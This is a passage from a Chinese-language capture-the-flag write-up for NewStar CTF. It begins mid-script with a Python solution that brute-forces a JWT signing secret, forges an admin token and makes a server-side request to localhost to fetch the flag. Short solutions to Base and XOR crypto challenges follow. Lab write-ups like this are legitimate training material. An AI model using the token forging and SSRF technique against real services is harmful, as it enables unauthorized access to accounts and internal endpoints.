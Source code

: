 ```
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue

print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)

print(f"[+] Generated a fake token: {fake_token}")

print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})

print(f"[+] Flag: {req.text}")
```

![image-20241031200436735](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410312004780.png)







## Crypto

### Base

![image-20240930150338588](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409301503665.png)

我们把编码放CyberChef里解一下就出了

![image-20240930150415482](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409301504602.png)

### xor

```
from pwn import xor
from Crypto.Util.number import long_to_bytes,bytes_to_long

key = b'New_Star_CTF'

# 使用之前的 c1 和 c2 值
c1 = 8091799978721254458294926060841
c2 = b';:\x1c1<\x03>*\x10\x11u;'

# 解密 m1
m1 = long_to_bytes(c1 ^ bytes_to_long(key))

# 解密 m2
m2 = xor(key, c2)

# 拼接得到完整的 flag
flag = m1 + m2
print(flag.decode('utf-8'))

```
